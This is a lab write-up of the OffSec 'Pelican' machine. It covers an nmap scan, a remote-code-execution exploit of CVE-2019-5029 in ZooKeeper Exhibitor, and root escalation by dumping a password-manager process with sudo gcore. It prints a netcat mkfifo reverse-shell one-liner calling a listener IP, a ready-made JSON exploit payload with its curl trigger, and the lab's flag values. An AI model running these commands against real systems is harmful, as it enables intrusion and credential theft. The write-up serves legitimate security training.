# Lab Report - Pelican


# Overview 
---
- **Difficulty**: Intermediate
- **Community Rating**: Intermediate
- **Platform**: Linux
- **Link**: https://portal.offsec.com/machine/pelican-440/overview/details

## Resolution Summary 
---
We found an Exhibitor (Zookeeper)  instance running that was vulnerable to CVE-2019-5029, an RCE exploit (no authentication) which allowed us to gain a foothold on the target. Next, we could run `gcore` with sudo, which we used to dump the core of a process running `/usr/bin/password-store` and  to recover the root user's password.

# Information Gathering 
---
- First of all, we performed an Nmap scan in order to reveal open ports on the target, as well as the services' version and further information about them. We noticed that Zookeeper and Exhibitor were running on the target: 
```bash
sudo nmap 192.168.187.98 -p- -sCV
```
<p align="center">
  
</p>

- After accessing the URL we found, we noticed that `Exhibitor` v1.0 was running, which seemed vulnerable to  `CVE-2019-5029`, an RCE vulnerability targeting ZooKeeper Exhibitor's UI (1.0.9 to 1.7.1): 
```bash
http://192.168.187.98:8080/exhibitor/v1/ui/index.html
```
<p align="center">
  
</p>

# Exploitation 
---
- A PoC for the exploit was available [here](https://www.exploit-db.com/exploits/48654). It could also be found locally at: 
```bash
/usr/share/exploitdb/exploits/java/webapps/48654.txt
```

- We followed the instructions in the PoC to exploit this vulnerability.
- First, we accessed the `Exhibitor` web UI, clicked the `Config` tab then we toggled the Editing switch to `ON`:  
```bash
http://192.168.187.98:8080/exhibitor/v1/ui/index.html
```
<p align="center">
  
</p>
<p align="center">
  
</p>

- Next, we set up a listener: 
```bash
penelope -p 80
```

- Afterwards, we replace the content of the `java.env script` section with a reverse shell (surrounded by `$()`):
```bash
$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.246 80 >/tmp/f)
```
<p align="center">
  
</p>

- Following that, we confirmed our changes by clicking `Commit` -> `All At Once` -> `OK`. 
<p align="center">
  
</p>

- Finally, we obtained a shell session on the target as `charles`, confirming foothold as we retrieved the first flag: 
```bash
cat /home/charles/local.txt && id && ip a
```
<p align="center">
  
</p>

- **Side Note**: We could have also used the following steps to exploit the vulnerability from CLI: 
- Create a `data.json` file with the following content:
	- Note that in the [PoC](https://www.exploit-db.com/exploits/48654), the JSON content has curly quotes (invalid in JSON), therefore you will need to replace them. You can use `sed -i 's/[“”]/"/g' data.json` to do it easily.
```bash
cat data.json
#Output 
{ "zookeeperInstallDirectory": "/opt/zookeeper", "zookeeperDataDirectory": "/opt/zookeeper/snapshots", "zookeeperLogDirectory": "/opt/zookeeper/transactions", "logIndexDirectory": "/opt/zookeeper/transactions", "autoManageInstancesSettlingPeriodMs": "0", "autoManageInstancesFixedEnsembleSize": "0", "autoManageInstancesApplyAllAtOnce": "1", "observerThreshold": "0", "serversSpec": "1:exhibitor-demo", "javaEnvironment": "$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.246 80 >/tmp/f)", "log4jProperties": "", "clientPort": "2181", "connectPort": "2888", "electionPort": "3888", "checkMs": "30000", "cleanupPeriodMs": "300000", "cleanupMaxFiles": "20", "backupPeriodMs": "600000", "backupMaxStoreMs": "21600000", "autoManageInstances": "1", "zooCfgExtra": { "tickTime": "2000", "initLimit": "10", "syncLimit": "5", "quorumListenOnAllIPs": "true" }, "backupExtra": { "directory": "" }, "serverId": 1 }
```
 - Then trigger the exploit with: 
```bash
curl -X POST -d @data.json http://192.168.187.98:8080/exhibitor/v1/config/set
```
<p align="center">
  
</p>

# Privilege Escalation 
---
- Upon listing commands that we were able to run with `sudo`, we found that the `/usr/bin/gcore` binary was available:
```bash
sudo -l
```
<p align="center">
  
</p>

- A quick search on [GTFOBins](https://gtfobins.org/gtfobins/gcore/) revealed that it could be abused to generate core dumps of running processes.
- Therefore, we looked for processes that might hold sensitive credentials. We found a process running `/usr/bin/password-store`, which  is the executable path for the `pass` command (widely known as the standard Unix password manager).
```bash
ps auxww | grep root
```
<p align="center">
  
</p>

- We generated a core dump of the process and retrieved the password of the root user: 
```bash
sudo gcore 490
strings core.490
```
<p align="center">
  
</p>

- Finally, we logged in as root, and retrieved the last flag: 
```bash
su root
cat /root/proof.txt && id && ip a
```
<p align="center">
  
</p>

# Trophy 
---
**User.txt → `295bbd132524dce5ec30a26601158b34`  

**Root.txt → `420b5abb32a091964df58d405d9e5cae`**

# Lessons Learned
---
- Dumping process running `/usr/bin/password-store` can allow us to retrieve credentials. 
